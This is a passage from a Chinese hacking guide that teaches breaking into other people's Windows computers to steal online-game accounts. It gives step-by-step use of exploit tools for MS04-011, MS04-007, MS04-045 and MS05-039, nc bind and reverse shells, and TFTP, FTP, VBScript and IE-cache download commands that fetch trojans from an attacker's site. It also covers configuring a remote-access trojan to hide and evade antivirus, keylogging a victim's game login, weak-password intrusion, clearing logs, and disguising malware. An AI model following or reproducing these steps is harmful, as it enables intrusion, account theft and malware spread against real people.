如果想通过 IPC 共享破解管理员的密码，那么我就找一个字典工具生成一个常用密码的字典，用这个字典替换 ipc_pass.dic 文件，然后我们只扫描主机的 IPC 弱口令，扫描器就变成了破解密码的工具的功能。但是它的字典文件中只有几个简单密码，我们丰富了字典后就扩大了它的使用范围。


图形界面版的文件是目录下的 hscangui.exe 文件，软件界面如图 3.8。点击菜单中的模块，这里是选择扫描的项目（图 3.9），“设置”选项是填写扫描目标和扫描线程（图 3.10），这些都设置好后点击开始。图形界面下的使用果然比命令行下简单，但我们在肉鸡上扫描时大多选择命令行，有时是条件限制，更多是为了隐蔽。


### 3.2 MS04-011 漏洞利用

学会了怎么扫描漏洞，接下来说说怎么利用漏洞取得对方主机权限进行盗号。我们第一个要讲的漏洞就是早已成名的 MS04-011，可能说起微软的漏洞代号你还不清楚，但要是说它就是震荡波，你应该就知道了。被震荡波折磨的人太多了，每次看见那个熟悉的倒计时关机画面，就有种砸电脑的冲动。虽然经过震荡波的洗礼，许多人的电脑都打了补丁，但是在网吧、校园网和小区宽带中可是有不少还没打补丁的电脑，我们要利用的就是这个漏洞。


## 第三章 致命的攻击——网游攻击实操篇

我们从光盘中下载 MS04011 漏洞的利用工具，工具包中有三个工具是我们要用到的：DSScan.exe（扫描漏洞工具）、getos.exe（判断对方操作系统工具）和 ms04011.exe（漏洞利用工具）。这个漏洞有专用的扫描工具 DSScan（图3.11）。


图3.12

它的使用非常简单，我们输入单个或一个 IP 段后点击黑框处的箭头，把 IP 或 IP 段添加到右边的扫描框内，再点击蓝色的三角小箭头开始扫描（图3.12）。

图3.12 中已经显示出了我扫描的结果，右框内标示的都是“VULNERABLE”，这个单词是“脆弱的”意思，也就表示这两台主机都有 MS04011 这个漏洞；要是不存在漏洞就会在前面加个“NOT”。我就选 192.168.0.101 这台有漏洞的主机入侵。


图3.13

接着是使用 getos 工具判断主机的操作系统类型。getos 是个命令行工具，它的使用方法是：

```bash
getos 192.168.0.101
```

如图3.13。我们看图中黑线标示的地方写着 Windows 5.1，这表示对方是 Windows XP 操作系统，5.0 表示 Windows 2000，5.2 表示 Windows 2003。现在我们知道了对方主机使用的操作系统，信息收集全了，可以让我们的 MS04011 去攻击了。这个 MS04011 也是命令行下的工具，我们先看看它的使用方法（图3.14）。

帮助提示中告诉我们，Windows 2000 电脑的溢出使用参数 0，Windows XP 电脑的溢出使用参数 1。现在明白为什么要先判断对方的操作系统类型了吧！192.168.0.101 的操作系统是 Windows XP，我在命令行下输入：**MS04011 1 192.168.0.101**，溢出的结果如图3.15。


图3.14


图3.15

程序溢出成功后会打开对方的 1234 端口，我们可以使用微软自带的 TELNET 程序连接，也可以使用 NC 来连接。我建议使用 NC 连接，原因是用 TELNET 连接后输入的命令是即时传送的，也就是每输入一个字符都会马上传送到对方机器上，如果命令输入错误了是没有办法更改的。

但是使用 NC 就不一样了，它是在你输入完命令回车后才把命令传输过去。使用 NC 连接的命令是：**nc 192.168.0.101 1234**，连接成功后如图3.16，成功地得到了对方的一个 cmdshell。


图3.16

现在我们得到的这个 shell 是有系统权限的，想做什么都可以。


图3.17

刚才我使用 MS04011 溢出对方主机后，让它打开 1234 端口来欢迎我们，然后我们主动去连接它的 1234 端口，这就是所谓的正向连接；我还可以打开自己主机的端口，让对方主动连接我们，这就是所谓的反向连接。正好这个 MS04011 溢出程序也具有让对方主机反向连接的功能，我给大家演示看看。

```bash
nc -vv -l -p 6666
ms04011 1 192.168.0.101 6666 192.168.0.142
```

首先要在我们的机器上监听一个端口，用到的工具还是 NC，在命令行输入；然后溢出对方主机，程序命令格式是“ms04011 主机类型 对方IP 监听端口 自己IP”，例如上面的命令（图3.17），成功的话在我们监听的 6666 端口上就会返回对方的一个 shell，如图3.18。


图3.18

对于正向连接的溢出方式而言，其最大的缺点是无法穿过对方防火墙的拦截。倘若对方的电脑里安装了防火墙拦截 1234 等端口的话，就算是我们溢出成功了，也无法得到对方的 shell；而反向连接的溢出方式就可以解决这个问题。

要注意，我们在反向监听端口时必须要和对方处在同一个局域网内，而如果是在 Internet 上使用的话，就要求必须拥有一个独立的 IP 地址，不过对于普通家庭使用电信或网通宽带上网的用户都是有的。

我们在得到对方的 shell 后，接下来该做什么呢？我们可以给对方上传一个木马控制它，也可以上传一个盗号程序。但我们要怎么上传呢？我介绍几种方法，你们看。

#### 3.2.1 TFTP

TFTP 全称为 Trivial File Transfer Protocol，中文名叫简单文件传输协议。大家可以从它的名称上看出，它适合传送“简单”的文件。与 FTP 不同的是，它使用的是 UDP 的 69 端口，因此它可以穿越许多防火墙。不过它也有缺点，比如传送不可靠、没有密码验证等。虽然如此，它还是非常适合传送小型文件的。


图3.19

我们要先在自己的电脑上架设一个 tftp 服务器，软件界面如图3.19。我们把需要上传的工具放在同一个目录下，如果你有多个 IP 地址，就要选择一个能访问到的地址。比如你们同在一个局域网，就选择你的局域网 IP 地址；要是对方主机只能访问你的外网 IP，就选择外网 IP（必须要有自己的独立 IP，不能是局域网共享上网的机器）。这些设置好后就可以利用它传文件了。


图3.20

tftp 使用的命令格式为“tftp -i tftp服务器IP get(put) mm.exe”，其中 get 指下载文件，put 指上传文件。

```bash
tftp -i 192.168.0.142 get nc.exe
```

程序就会从我们的电脑 192.168.0.142 上将 nc.exe 文件下载到对方的电脑里了，结果如图3.20。

#### 3.2.2 FTP

FTP（File Transfer Protocol）是 Internet 上用来传送文件的协议（文件传输协议）。它是为了我们能够在 Internet 上互相传送文件而制定的文件传送标准，规定了 Internet 上文件如何传送。也就是说，通过 FTP 协议，我们就可以跟 Internet 上的 FTP 服务器进行文件的上传（Upload）或下载（Download）等操作。

利用 FTP 上传文件的步骤和 tftp 差不多，先在自己的电脑上架设 FTP 服务器，再在 shell 执行上传。我们用到的软件是 20CN 出品 miniFTP 服务器，软件界面如图3.21。


图3.21

监听端口一般不用修改，自己输入一个用户名和密码，再定义个性的欢迎和退出信息，访问目录选择我们需要上传的工具所在目录，最后点击启动服务，FTP 服务器就架设完成。


图3.22

我们不能在 shell 中直接登录 FTP 服务器，那样会造成 shell 没有反应，要编辑一个下载脚本再执行。在 shell 中输入：

```bash
echo open ftp服务器ip[端口]>ftp.txt
echo username>>ftp.txt
echo password>>ftp.txt
echo get mm.exe>>ftp.txt
echo bye>>ftp.txt
```

然后执行：`ftp -s:ftp.txt`，最后别忘了删除掉这个脚本以免被人发现：`del ftp.txt`。图3.22、3.23 是我上传 sc.exe 的具体过程。


图3.23

#### 3.2.3 利用 VB 脚本下载

我们把程序放到网站上，利用 VB 脚本下载。这种方法在 TFTP 和 FTP 被对方防火墙禁止使用时可用，但要求没有禁止脚本的执行。我们在 shell 中把下面的脚本复制上去执行：

```bash
echo Set xPost = CreateObject("Microsoft.XMLHTTP") > get.vbe
echo xPost.Open "GET", "http://www.myhome.com/muma.exe", 0 >> get.vbe
echo xPost.Send() >> get.vbe
echo Set sGet = CreateObject("ADODB.Stream") >> get.vbe
echo sGet.Mode = 3 >> get.vbe
echo sGet.Type = 1 >> get.vbe
echo sGet.Open() >> get.vbe
echo sGet.Write(xPost.responseBody) >> get.vbe
echo sGet.SaveToFile "sample.exe", 2 >> get.vbe
```

写好脚本后执行：**cscript get.vbe**，就能把 `http://www.myhome.com/muma.exe` 下载到对方机器上，大家在使用时只要替换这个链接就行了。

还有两个脚本可以有选择地下载，不必在脚本中定义下载地址。

```bash
脚本一：

echo with wscript : if .arguments.count<2 then quit:end if > xiazai.vbe
echo set aso=createobject("adodb.stream"):set web=createobject("microsoft.xmlhttp") >> xiazai.vbe
echo web.open "get",.arguments(0),0:web.send:if web.status<>200 then quit >> xiazai.vbe
echo aso.type=1:aso.open:aso.write web.responsebody:aso.savetofile .arguments(1),2:end with >> xiazai.vbe

脚本二：

echo iLocal = LCase(WScript.Arguments(1)) >> get.vbe
echo iRemote = LCase(WScript.Arguments(0)) >> get.vbe
echo Set xPost = CreateObject("Microsoft.XMLHTTP") >> get.vbe
echo xPost.Open "GET", iRemote, 0 >> get.vbe
echo xPost.Send() >> iget.vbe
echo Set sGet = CreateObject("ADODB.Stream") >> iget.vbe
echo sGet.Mode = 3 >> iget.vbe
echo sGet.Type = 1 >> iget.vbe
echo sGet.Open() >> iget.vbe
echo sGet.Write(xPost.responseBody) >> iget.vbe
echo sGet.SaveToFile iLocal,2 >> iget.vbe
```

把脚本复制到对方机器上后，使用方法是：**cscript xiazai(iget).vbe http://www.myhome.com/mm.exe muma.exe**。

#### 3.2.4 EXE 转 BAT

如果对方禁止了 TFTP 和 FTP，又监听了脚本，我们还有一种上传方法可以使用。那就是把你要上传的 EXE 文件转成 BAT 批处理文件，再把批处理文件通过 shell 复制过去，生成一个 EXE 文件。这个方法不会被防火墙禁止，只要你的程序免杀，就能成功上传过去。


图3.24


图3.25

首先我们用 exe2batnet.exe 程序把要传的 pulist.exe 转换成 pulist.bat 文件，在命令行中输入：**exe2batnet pulist.exe pulist.bat**（图3.24）。

用记事本打开 pulist.bat 文件，把文件最后两行删掉，然后从头把代码分批复制（一定要多分几次）到 shell 中。

看着数据如雨一样地落下，有了一种黑客高手的感觉。都复制完后再输入：**ren tvisGRAY pulist.exe**，程序就上传过去了，执行一下程序，使用正常（图3.25）。

## 上传方法介绍

完了，我们可以上传专门的盗号木马，盗取我们想要的账号。更好的选择是使用功能强大的远程控制工具控制我们的肉鸡，它的命运就由我们主宰，想盗号还是捉弄它一下都可以。说到远程控制，大多数人都会想起灰鸽子，更早的还有著名的冰河。


图3.26

不过，我要说的是一款不输于灰鸽子的木马——上兴远程控制 3.4。这个远程控制工具同灰鸽子一样有着丰富的控制选项，而且它生成的服务端比灰鸽子小得多；没有加壳（可选）。最重要的是它没有灰鸽子那么著名，因此制作免杀也相对简单，不像灰鸽子都有了对应的清除工具。我们先来看看它的界面，如图3.26。

软件的各项功能一目了然，界面简洁大方。第一次运行软件需要在右边的上线端口处设置监听的上线端口，然后点击更改设置。关闭软件后重新启动，在最下面的状态栏内就会显示“打开本地端口成功，等待主机上线”。点击配置服务端，如图3.27。点击填写说明，弹出一个对话框，上面写着 IP 更新处的填写示例（图3.28）。


图3.27


图3.28

如果两台机子都在一个局域网里，直接使用自己的局域网地址即可。

但我们要控制的机子不在同一个局域网内，自己又没有外网 IP，就可以使用 DNS 解析域名或网页文件。


图3.29

我用 DNS 域名解析作例子进行说明。先点击申请希网 DNS 解析域名（使用别的域名也可以）。我们注册一个新用户，填写方法如图3.29，E-mail 一定不能瞎填，希网会发一封注册信件到你的邮箱中，那里面有你的密码（图3.30）。


我们用收到的用户名密码登录希网，登录成功后出现如图3.31所示的界面。我们点击动态域名服务会弹出一个新网页，在新网页中点击动态域名下的新建，在如图3.32中填写新建的域名和指向 IP，再点击确定就建立成功，我们现在就可以使用这个域名了。

更新 IP 不用每次都登录希网去修改，在它的主页上下载一个客户端，用这个软件就可以自动更新你的 IP 了。我们运行这个客户端，选择管理账号，在这里填写你刚才申请的账号和建立的域名，点击增加，这个域名就会自动更新了（图3.33）。参数设置中建议勾选开机自动启动，不用每次用时再去运行程序更新，别的可以根据自己的情况修改（图3.34）。我在参数设置中选了详细日志，图3.35就是我的域名的详细更新情况。


现在我们有了自己的域名，IP 更新处就填写 xxyyzzuu.3322.org。安装名称最好起一个带有迷惑性的名字，我填写的是“mstd.exe”；DLL 名称填“server.dll”；上线端口就填我们设置的 80 端口；宿主进程名选 explorer.exe，隐藏性好，但穿防火墙能力差；选 iexplore.exe 穿墙能力强（防火墙一般对浏览器放行）；不勾选使用 Upack 压缩服务端，生成不加壳的服务端我们再加个生僻点的壳，就能躲过大部分杀毒软件了；勾选自动保存填写的信息，下次再生成服务端就不用再重新填写了。最后生成服务端，它的图标是网页文件的图标，很有迷惑性。


我们用得到的 shell 或别的方法把服务端传到对方主机并执行，不一会儿就能看到我的肉机上线了（图3.36）。

我们先通过远程屏幕看看它在干什么，点击远程屏幕，选开始后就能看到对方的屏幕了（图3.37），原来它在更新魔兽世界呀，待会把它的号盗过来。

这里盗号有两种选择：一是上传专门的盗号木马，像第二章中讲的魔兽世界杀手木马生成器 VIP；二是用上兴的键盘监控得到密码。我们可以用上兴的键盘记录得到我们想要的一切用户的键盘输入，像邮箱密码、各种网游、各种游戏平台等等。


图3.37

不用费尽心思地寻找对应的木马，可以说非常之方便。步骤为：开启键盘记录，结束相应进程，等用户在输入密码时，那么信息就会悄悄地出现在我们的键盘记录中。


图3.38

刚才我们看到了肉鸡在更新魔兽世界，现在它应该玩上了，我去记录它的账号和密码。我们先证实一下，看看远程屏幕（图3.38），还是个亡灵玩家。


图3.39

我利用进程管理结束掉山口山的进程，点击进程管理。上兴的进程管理做得很专业，能查看每个进程的详细信息，图3.39就是上兴远程控制插入到 explorer.exe 的 DLL 文件，和我刚才设置的文件一样。

山口山的进程名为 wow.exe，选中它，点击中止进程。关掉进程管理窗口，马上点击键盘记录，启动键盘记录。等一会儿那个玩家登录上去后，我们点击查看记录内容（图3.40）。


用户的输入已经都捕捉到了。根据九城对用户名的命名规则，我们分析他的用户名是：jinchengw2，密码：jinchengw1。这种方法还是很好用的，我们能即时地控制他，还有什么得不到的。我们还可以利用上兴上传专门的盗号软件，选中你要控制的主机，点击文件管理，在左边的下拉菜单中选中 C 盘，在右边的文件目录内点击鼠标右键，选择上传文件（图3.41、3.42）。


文件上传好后，选中文件点击右键，依次选择运行文件、隐藏运行，木马就在对方机子上悄悄运行了。

上兴还能控制肉鸡从网站上下载程序执行，点击工具栏上服务端控制图标，出现如图3.43的界面，填入链接点击下载执行。

### 3.3 MS04-007漏洞利用

大家在看过了 MS04-011 漏洞的利用后应该很爽吧，其实微软还有好几个能远程溢出的漏洞，利用起来也十分方便。下面我介绍的这个 MS04-007 漏洞，它的影响范围更广，几乎包括了 Windows 的所有操作系统。我们来看一下如何利用这个漏洞来进行我们的盗号行动吧。

先从光盘中下载漏洞利用程序，解压到硬盘。winasn.exe 是溢出程序，这个溢出程序溢出对方主机后会在对方主机上打开 8721 端口欢迎我们，目录中还有一个 NC.EXE 是用来连接对方主机的。这次我们不用手动连接对方的 8721 端口，使用 winasn.exe 溢出成功后程序会自动调用 NC 去连接对方，很是方便快捷。winasn 是命令行工具，还是先来看看它的使用帮助（图3.44）。


图3.44

可以溢出的端口竟有 5 个之多，看来这个漏洞的危害真不小。这个漏洞没有专用扫描器，但可以借助综合扫描器来完成任务。


图3.45

冰河大家都很熟悉了，它的作者编写的 X-Scan 同样出名。现在 X-Scan 已经更新到了 3.3 版，这个综合的漏洞扫描器能扫描出常见的系统漏洞和脚本漏洞，并且安全焦点也在不断完善它的漏洞数据库。软件界面如图3.45，非常简洁，没有太多按键让人不知所措。

如果我们想进行扫描的话，点击上方左边第二个蓝色的三角按钮，就会弹出扫描参数设置菜单（图3.46）。在右边的指定 IP 范围栏可以直接填要扫描的 IP 地址，点击最右边的“示例”按钮则会弹出扫描 IP 的填写示例，可以填写域名、主机名、单个 IP、多个 IP 和 IP 范围。还可以从地址簿中选取扫描目标，加号是添加地址，减号是删除地址，三角符号是编辑地址（图3.47）。我把要扫描的目标添加到地址簿中，点击加号后填写名称、IP 地址和描述（图3.48、3.49）。


把扫描目标保存在文本文件中，选择从文件中获取主机列表，选择列表文件，这样也可以添加检测范围（图3.50）。选择“全局设置”中的“扫描模块”，这里是设置具体的扫描项描述。扫描 MS04-007 漏洞要选择“漏洞检测脚本”，我多选了一个“远程操作系统”是为了后面的入侵做准备（图3.51）。点击每个扫描项，在右边都会有它的详细说明。“并发扫描”是设置扫描的线程，建议机器好、网速快的朋友可以增加并发主机数量和线程数量，网速慢的朋友就相应地减少点（图3.52）。


图3.51


图3.52

生成扫描报告默认用检测范围的设置命名，也可以自己修改。报告文件类型有三种：html、txt 和 xml（图3.53）。“其他设置”中一定要选择无条件扫描，如果选择“跳过没有响应的主机”，软件就会放弃 Ping 不通的主机。现在许多主机都会设置禁止 Ping，这也是许多刚使用扫描器常犯的错误。选择“跳过没有检测到开放端口的主机”，如果一个主机都扫描不到开放端口，我们也就没必要浪费时间了（图3.54）。


图3.53

“插件设置”的“端口相关设置”，是对应扫描模块中的“开放服务”，也就是端口扫描。可以自己手动添加需要扫描的端口，检测方式分 TCP 和 SYN 两种，前面已经详细介绍过它们的区别。在“预设知名服务端口”中自己添加一些端口的定义，像 3389 终端、Radmin 的 4899 等（图3.55）。


“漏洞检测脚本设置”默认是加载全部脚本，这样太浪费时间，我们只是要扫描一个漏洞，没必要弄得那么兴师动众（图3.56）。取消“全选”点击选择脚本，扫描器在加载脚本后弹出脚本选择界面（图3.57、3.58）。左边是不同的漏洞组，每组中又有 N 多漏洞。倒数第二组是微软的漏洞，从图3.58中能清楚地看到漏洞编号，选择要扫描的 MS04-007。双击想要查看的漏洞会弹出漏洞介绍的对话框（图3.59）。选择 MS04-007 点击确定，这样就单独选择了要扫描的漏洞脚本。扫描参数设置完成后，可以选“另存”保存扫描设置，下次再扫描同样的内容时“载入”设置，就不用重复设置选项了。点击绿色三角开始扫描，软件的右下界面显示的是扫描过程的详细信息。右上是扫描进度，点击鼠标右键可以随时中止某个插件或某个主机的扫描（图3.60）。


图3.58


图3.59


图3.60

扫描完成后自动生成扫描报告，192.168.0.101 存在 MS04-007 漏洞（图3.61）。现在通过 X-Scan 已经确定对方存在漏洞，可以进行溢出攻击了。溢出工具的命令格式为“winasn -s 服务名 -p 端口 IP”，服务和端口填其中一种就可以。


图3.61

要溢出的主机在同一个局域网中，并且对方没有开 IIS 服务，我选择溢出它的 445 端口；也可以使用 SMB，在命令行输入 `winasn -s smb 192.168.0.101`（图3.62）。溢出成功了，我们得到了一个系统权限的 shell。如果你的 winasn.exe 所在目录中没有 nc.exe，那就会报错“'nc'不是内部或外部命令，也不是可运行的程序或批处理文件”。

不过没有关系，可以再用 NC 去连接 8721 端口，命令是：`nc 192.168.0.101 8721`。我们接下来利用 shell 给对方主机上传一个前面讲过的魔兽世界的盗号木马，测试一下它的威力。


图3.62


图3.63

上传方法选用 VB 脚本下载法，首先写进一段能从网站上下载文件的 VB 脚本，然后运行这个脚本（图3.63、3.64）。用 shell 写入 VB 脚本最好一句一句写，图3.63中红线标示的部分是脚本把下载的程序保存的名字“sample.exe”，最后别忘了删除这个脚本：**del dsa.vbe**。在命令行中运行这个 sample.exe 程序，等对方再次登录魔兽世界时，木马就会把它的账号和密码发送到我们的邮箱中了（图3.65）。


图3.64


图3.65

### 3.4 MS04-045 漏洞利用

这个漏洞并没有 MS04-007 漏洞的应用范围大，但它也算是微软漏洞中为数不多的远程溢出漏洞。该漏洞是由 Windows WINS 服务处理名称验证的方式而引起的，不过只针对 WinNT/2000/2003 系统有效。


图3.66

WINS 服务对应的是 42 端口，我们在溢出前至少要确定要溢出的电脑开了 WINS 服务，并且 42 端口对外开放，这样才能去溢出。先使用扫描工具扫描那些开了 42 端口的主机，再逐个溢出。大家还记得我在前面介绍的 S 扫描器吧，这个软件的作者制作的初衷就是扫描 MS04-045 漏洞。没想到现在应用这么广泛，像前一阵 N 多人用来扫描使用 ADSL 的 IP 段的代理端口，然后去刷 Q 币、点卡。

```bash
s tcp 192.168.0.1 192.168.0.255 42 512
```

结果如图3.66。


图3.67


图3.68

看来只有我启动了 WINS 服务，不过没关系，我已经找好测试主机，还是先来看看 MS04-045 溢出程序的使用帮助（图3.67）。从命令格式看出这个溢出程序是个反向连接程序，在测试时发现我们不用额外使用 NC 监听一个返回端口，程序已经为我们想到了，自动打开我们设定的监听端口。图3.68是我对目标主机的溢出结果，命令为：**ms04045 192.168.229.128 42 192.168.229.1 6666**，其中 192.168.229.128 是目标主机，42 表示 WINS 服务的端口，192.168.229.1 是本机 IP，6666 是我指定的返回端口。图中红线标示就是溢出程序自动打开的端口，下面就是得到的 shell。


图3.69

我们现在利用 EXE 转 BAT 方法把完美世界的木马上传到我们的肉鸡上，先把木马转换成 BAT 格式，在命令行输入：**exe2batnet wmsj.exe wmsj.bat**，然后用记事本打开 wmsj.bat，把除去最后两行的内容都用 shell 写进对方主机，再执行：**ren tvisGRAY wmsj.exe**。注意不要一次复制太多内容，不然会把 shell 搞挂了（图3.69）。执行木马后，让我们验收一下成果（图3.70），一个账号静静地躺在我们的邮箱中了。


图3.70

### 3.5 MS05-039 漏洞利用

这个漏洞主要利用的是 Windows 系统即插即用中的一个漏洞，虽然该漏洞也影响 Windows2000/XP，但网上公布的溢出程序似乎只是针对 Windows2000 的，这不能不说是一个遗憾。因为漏洞出现的时间还不长，还没有像震荡波那样弄得人人自危，所以在许多网吧和机房里，甚至有的服务器都存在这个漏洞，我们利用起来还是十分方便的。


图3.71

这个漏洞也有专门的扫描器，界面和 MS04-011 漏洞扫描器一样（图3.71）。

我添加我的 IP 段，扫描看看有没有存在漏洞的主机。有一个 IP 为 192.168.229.128 的主机存在漏洞，锁定目标准备攻击（图3.72）。


先来了解一下我们的武器怎么使用，这个溢出是个反向连接的程序（图3.73）。命令格式为“ms05039 目标IP 自己IP 端口 系统类型”，需要先使用 NC 在本地监听一个端口。

开始攻击目标，在命令行中输入：`nc -vv -l -p 6666`，再打开一个命令行窗口输入：`ms05039 192.168.229.128 192.168.229.1 6666 1`。武器已发射，查看一下目标的打击情况（图3.74、3.75）。

我们顺利地得到一个系统权限的 shell，接下来就是上传木马盗号了。如果你在入侵中使用我们前面讲过的上传方法都失败了，我再教你一招：利用 IE 缓存下载。防火墙可能禁止 FTP、TFTP，杀毒软件可能监视脚本，但它们一般不会限制 IE 的访问。我们先把想下载的木马和工具上传到空间中，把扩展名改成 JPG，如果没有空间的朋友也可以找个论坛传上去，反正能让你下载到就行。


```bash
start http://www.myhome.com/mm.jpg
```

然后在 shell 中执行，估计下载完毕后我们在根目录下搜索工具的下载缓存位置：

```bash
dir mm[1].jpg /s
```

如图3.76。可以直接切换到所在目录执行，也可以复制出来，程序扩展名不用修改。在命令行下系统是根据文件头识别文件类型的，不修改扩展名还能躲过杀毒软件（图3.77）。


现在我把剑侠情缘2的木马上传过去，测试一下使用效果。图3.78是收到的剑侠2信封，信息还是比较全面的。使用这种上传方法有一个缺点：我们利用 IE 缓存下载，在 IE 访问文件时就会弹出一个 IE 的访问窗口，有点安全意识的人一看肯定有问题，所以这种方法多用在入侵无人值守的服务器。下载完文件后再用工具把那个 IE 进程结束掉。工具推荐使用 MT，MT 是网络管理软件，虽然只有几十 K，但却有着 34 项功能之多。

具体的使用方法大家可以到网上看看，我只说一下怎么结束进程的方法：首先列举进程：

```bash
mt -pslist
```

图3.79中红线标示的就是浏览器进程，再输入：

```bash
mt -pskill PID号
```

如图3.80。

### 3.6 弱口令的利用

虽然关于 Windows 弱口令的使用早在 2000 年就已经泛滥流行了，可是直到今日，网上仍然有许多个用户存在这个问题。关于扫描弱口令的工具实在是举不胜举。不过，众多的工具中，我推荐啊D工具包2.02——D贺专用免杀版和 Recton——D贺免杀专用版。啊D是主要入侵工具，在对付一些顽固不化的敌人时使用 Recton。


啊D网络工具包的功能非常丰富，Windows 的许多设置都能在软件里找到（图3.81）。


还有一些方便的网络常用工具（图3.82），只用它来抓肉鸡确实有点大材小用。进入正题，我就用它扫描一下我的 IP 段，看看有没有弱口令肉鸡。先查看一下我的 IP，点击“杂务”菜单选本机 IP（图3.83），由于我是在内网，所以没有显示外网 IP，不过别着急……


图3.83

图3.84


图3.85


图3.86

急，可以访问 http://www.ip138.com 查询我们的 IP（图3.84）。把我们 IP 地址的 C 段填写到啊D网络工具包的肉鸡查找工具中，点击下面的设置，勾选上只猜测 Administrator 账号（图3.85），这样就不用猜测没用的账号了，能提高不少速度。点击开始扫描，一会儿就有弱口令的机子被扫描到了（图3.86）。

找到 Windows2000 或 2003 的机器入侵，因为 WinXP 默认设置远程 IPC 连接都为游客权限，就算我们使用管理员账号连接也是如此。右键点击那个空口令的 Win2000，选择木马（IPCs）种植机（图3.87）。在本地文件处选择我们配置好的网游木马，点击检测共享，选择完复制位置后点击开始，木马复制过去后会利用计划任务执行。


图3.87

有时我们会遇到如图3.88所示的提示，找不到共享目录，这时可以使用啊D打开对方的 Telnet 服务，然后我们再用 Telnet 登录上去。在图3.89的界面中填……

## 第三章 教你的攻击：网游攻击大揭秘

写必要的项目，点击启动，结果如图3.90。点击确定出现图3.91的命令行窗口，这是 Telnet 的一种验证方式，把我们当前登录的用户名和密码发送过去，如果对方主机有一个和你登录的用户名和密码一样的用户，我们就可以登录了。由于我这里不相同，输入 n 后回车，在出现的如图3.92的界面中输入我们扫描到的弱口令，登录成功后出现图3.93的界面。


图3.94

现在我们得到了一个管理员权限的 shell，可以使用前面讲过的方法上传我们的网游木马，也可以打开共享用木马种植机解决（图3.94）。用完 Telnet 后输入：exit，退出与对方的 Telnet 连接，最后使用啊D恢复 Telnet 设置（图3.95）。如果种植机提示无法添加计划任务，可以用 Telnet 连接过去后执行程序。现在我把配置好的热血江湖木马传送过去执行，图3.96为我在网站上收到的账号信息。利用啊D工具包进行弱口令入侵就是这么的简单，下面让我们看看如何利用 Recton 进行 WMI 入侵。

首先让我们来了解一下什么是 WMI。WMI（Microsoft Windows Management Instrumentation）中文名字叫 Windows 管理规范，WMI 不仅可以获取想要的计算机数据，而且还可以用于远程控制，远程控制计算机可是大家都喜欢的东西。很多远程监视控制类软件通常的做法是：在远程计算机上运行服务端后台程序，在本地计算机上运行一个客户端控制程序，通过这二个程序的连接来实现对计算机的远程控制。这种做法的缺点是十分明显的，当服务端程序关了，这种远程监控就无法实现了，因为没有“内线”了。而 WMI 实现的远程监视和控制完全不需要另外装什么服务端的东西，系统默认就将 WMI 服务给开了，这么强大的工具当然要为我们所用。


图3.95


图3.96

## 第三章 致命的攻击——扫描攻击大揭密

要进行 WMI 连接需要远程主机打开 135 端口，WMI 的远程连接不像 IPC 有空会话，它必须使用管理员账号才行。

NTscan 这个扫描器可以通过 WMI 扫描弱口令，再使用 Recton 进行入侵。打开 NTscan，界面如图3.97。填上起始和结束 IP，选择 WMI 扫描，勾选扫描打开端口的主机，填入 135。点击开始，喝杯茶等着肉鸡送上门来（图3.98）。


图3.97

| IP Address | Username      | Password | Type    |
|---|---|---|---|
|  | administrator |  | Unknown |

图3.98


图3.99

我就选 221.217.208.167 这台机子了，使用 Recton 把对方主机的 Telnet 服务打开，能用 Telnet 登录了基本上就没什么障碍了（图3.99）。再执行一次就是把 Telnet 关上，走的时候记得要关门。Recton 的种植者在使用时经常出错，而 Recton 一出错就会强行关闭，别的功能还是挺好用的，最后别忘了清除日志（图3.100）。

> 阿黑：“啊，累死我了，基本上常用的入侵方法我都讲完了，你应该都会了吧！”

## 第三章 致命攻击——网游攻击大揭密

阿菜：“想不到原来网游入侵盗号是这么的简单呀。”说完，阿菜就开始使用阿黑刚才讲的方法扫描入侵了。可是过了一会儿，阿菜又开始哭丧脸了：“阿黑，我上传上去配置好的网游木马后，怎么一执行，都提示说找不到呀，我明明传上去了。”


图3.100

“噢，是这样，那是因为你传上去的木马已经被对方的杀毒软件给杀了。”阿黑解释道。

“啊！？给杀了，那我们还盗个屁呀。”

“你又开始急了，道高一尺，魔高一丈，总有解决的方法的。比如我们给木马加个壳什么的，就可以躲过对方的杀毒软件了。”

“那你赶快给我说说要怎么给木马加壳。”

## 梯度叠加效果

关键词：木马的进化——网游木马攻击变青伙伞

## 第四章 木马伪装化——网游木马大战杀毒软件

> 阿菜：“阿黑呀，为什么你用这些网游木马就能盗到别人的号，而我就不行呢？我把配置好的网游木马传到对方的电脑上就找不到了，这是怎么一回事呀？”

阿黑：“你当别人都是白痴呀，谁的电脑里不安装杀毒软件，你上传上去的那些木马早就被对方的杀毒软件给查杀了。”

“啊！？那你介绍了这么多的木马岂不是一点儿用也没有了？不对呀，你传上去的木马为什么就没有被杀呢？”阿菜问道。

阿黑不耐烦道：“你真是属猪的，笨死了，我们只要给这些木马伪装、加壳、加密，那些杀毒软件就成了睁眼瞎了。”

阿菜开始欢呼了：“这个好，你赶快教教我！”

### 4.1 让网游木马戴上假面具

玩网游的朋友，因为比较在意自己的极品装备，因此他们的安全意识普遍要高于一般的网民。倘若你发给他们一个陌生的 exe 文件，是没有人会点击运行的。所以我们就要把服务端做得更吸引人，比如做成美女图片木马，和游戏一起捆绑或藏在外挂之中，下面就从这些方面来具体介绍。


#### 4.1.1 木马的自身“保护”

有些木马在生成服务端的时候，可以更换图标、捆绑文件，并使用加壳软件进行压缩伪装，进而起到迷惑网游玩家的战略作用！第二章中介绍的海盗传奇木马就可以更换服务端图标，如图4.1。剑侠情缘2木马还可以把服务端和图片一起生成一个屏保文件，让执行者以为就是个图片文件（图4.2）。还有的木马具有摧毁防火墙的作用，像啊拉QQ大盗的摧毁防火墙功能我就亲身体验过，执行了服务端后不但防火墙和杀毒软件关闭了，而且还不能再使用，只好清除了木马重新安装（图4.3）。


#### 4.1.2 捆绑软件的伪装

不是每个木马都有“伪装”功能的，更多时候还是要借助专门的捆绑软件来对木马进行加工。首先介绍的是由国人汉化的一款捆绑软件——F.B.I，它的功能简单，可以捆绑两个文件并能更换图标。


为什么要介绍它呢？因为经过 F.B.I 捆绑后的文件不被查杀，杀毒软件就不会拦截你的糖衣炮弹了。软件界面如图4.4，第一栏选择你的木马文件；第二栏选择你的宿主文件；如果想更改图标，就勾选“选择图标”，在下面选择中意的图标，点击“Load Icon”选择图标文件；最后点击添加的文件就会在目录下生成一个 Claws.exe 捆绑文件，用卡巴测试通过（图4.5）。

F.B.I 捆绑软件的功能毕竟单一，像释放到指定目录、写入注册表和远程密码下载等实用的功能都不具备。Deception v4.0 是一款强大的捆绑工具，它正好包含这些丰富的功能。打开软件会有两个界面出现，如图4.6、4.7。图4.6是设置添加捆绑文件的界面，选择“Bind into EXE”项是从本地添加文件，点击“Path to exe”中的“Browse”从硬盘中选择要捆绑的文件。


